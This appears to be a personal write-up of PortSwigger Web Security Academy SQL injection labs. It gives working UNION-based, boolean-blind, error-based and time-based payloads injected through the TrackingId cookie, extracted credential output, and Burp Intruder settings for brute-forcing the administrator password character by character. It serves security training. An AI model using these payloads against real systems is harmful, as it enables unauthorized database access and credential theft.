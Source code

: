 # SQL Injection Labs

## SQL injection attack, listing the database contents on Oracle

Note: Oracle requires a `FROM` clause in all `SELECT` statements. We can use the
built-in `dual` table for that.

```
GET /filter?category='+UNION+SELECT+NULL,'a'+from+dual-- HTTP/2

GET /filter?category='+UNION+SELECT+NULL,table_name+FROM+all_tables-- HTTP/2
<tr>
  <td>USERS_KMHLSB</td>
</tr>

GET /filter?category='+UNION+SELECT+NULL,column_name+FROM+all_tab_columns+WHERE+table_name+=+'USERS_KMHLSB'-- HTTP/2
PASSWORD_TLPSHT
USERNAME_ZZFDXD


GET /filter?category='+UNION+SELECT+NULL,PASSWORD_TLPSHT+||+':'+||+USERNAME_ZZFDXD+FROM+USERS_KMHLSB-- HTTP/2
93w4qoy3clpolrawivuk:wiener
weq2qre17hvdxek7a4sv:carlos
zu913q61aqwqtdyrv2xo:administrator
```

## Blind SQL injection with conditional responses

```
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0adf004e04ea2a9c854a78ad00360047.web-security-academy.net
Cookie: TrackingId=cQvDEyZPW0ZMMZVx; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# Check if execution happens
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0adf004e04ea2a9c854a78ad00360047.web-security-academy.net
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND '3'='3; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# Check fist letter
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 1, 1) <= 'm session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# First match
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 1, 1) = 'f; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# Second Letter
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 2, 1) = 'a; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# Third
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 3, 1) = '5; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5eA

# Final 
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0adf004e04ea2a9c854a78ad00360047.web-security-academy.net
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 1, 20) = 'fa55g4p06ue320533fus; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e
```

This could have been done way more efficiently by using the intruder feature of
BurpSuite.

## Blind SQL injection with conditional errors

Note: This is an Oracle DB

```
GET /filter?category=Corporate+gifts HTTP/2
Host: 0a2b00be04275c2f81ddd9e7002d006b.web-security-academy.net
Cookie: TrackingId=oheSoImFDflJjeUv'; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI

# Initial Oracle test (returns result)
Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM dual )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI

# Crashes app
Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM dual )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI


# First Conditional test againt user table
Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator' )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI

Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (password < 'm') THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator' )='a;

# Check PW Length
Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (LENGTH(password) = 20) THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator' )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI

# PW Fist letter check
Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (SUBSTR(password,1,1) = 'b') THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator' )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI

# Intruder
Cookie: TrackingId=chiqiq7pXIgBPi6T'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'; session=bGijkv5bYunQaUdT99YzOKk4V8XiyK8m
```

In Intruder:

- Switch to clusterbomb attack type
  - set first payload to number from 1-20 with increment 1
  - set second payload to `a-z` and `0-9`
- In results: filter for 500 status
- Sort by `payload 1`

![results-blind-oracle](images/results-blind-oracle.png)

## Blind SQL injection with time delays

```
# Initial Request
GET / HTTP/2
Host: 0a90000004d38cd582d738de00420061.web-security-academy.net
Cookie: TrackingId=JjlpMTlWKJlheKxz; session=dZKT5XYtz3AaPgvoqAwIeiJnN7HBISHL

# Working example using string concatenation
Cookie: TrackingId=oheSoImFDflJjeUv'|| pg_sleep(10) --; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI
```

The SQL query on the srv might look like this

``` sql
SELECT userid FROM tracking where id='${trackingId}'
```

## Blind SQL injection with time delays and information retrieval

```
# Initial Request
GET / HTTP/2
Host: 0a6700fe046f338e812f434f00f40045.web-security-academy.net
Cookie: TrackingId=f3a7cn7ioKyEbnQz; session=JzTLeEfQgPeATLOCBhW6lAOT2BSVYcyn

# Initial check for execution (works)
Cookie: TrackingId=f3a7cn7ioKyEbnQz'|| pg_sleep(3) --; session=JzTLeEfQgPeATLOCBhW6lAOT2BSVYcyn

# First Condition: Remeber we are already in a select statement
Cookie: TrackingId=f3a7cn7ioKyEbnQz' || CASE WHEN ('1'='1') THEN pg_sleep(3) ELSE pg_sleep(0) END--; session=JzTLeEfQgPeATLOCBhW6lAOT2BSVYcyn

# Our first actual succefull data retrevial Request
Cookie: TrackingId=f3a7cn7ioKyEbnQz' || (SELECT CASE WHEN LENGTH(password) < 30 
THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users WHERE 
username='administrator')-- ; 

# PW Length is 20
Cookie: TrackingId=f3a7cn7ioKyEbnQz' || (SELECT CASE WHEN LENGTH(password) = 20 THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users WHERE username='administrator')-- ; session=JzTLeEfQgPeATLOCBhW6lAOT2BSVYcyn


# Test of PW char 1 1
Cookie: TrackingId=f3a7cn7ioKyEbnQz' || (SELECT CASE WHEN (substring(password,1,1) > 'a') THEN pg_sleep(7) ELSE pg_sleep(0) END FROM users WHERE username='administrator' limit 1)-- ; session=JzTLeEfQgPeATLOCBhW6lAOT2BSVYcyn

# Intruder
Cookie: TrackingId=f3a7cn7ioKyEbnQz' || (SELECT CASE WHEN substring(password,§1§,1) = '§a§' THEN pg_sleep(7) ELSE pg_sleep(0) END FROM users WHERE username='administrator' limit 1)-- ; session=JzTLeEfQgPeATLOCBhW6lAOT2BSVYcyn
```

Intruder Settings:
- cluster bomb
  - 1. pos = number 1-20
  - 2. pos = `a-z`, `0-9`
- set max concurrent connections to 10

- In results: show `Response received`, which is the response time.
  - Sort by that and read PW

![blind-timing-data](img/blind-timing-data.png)

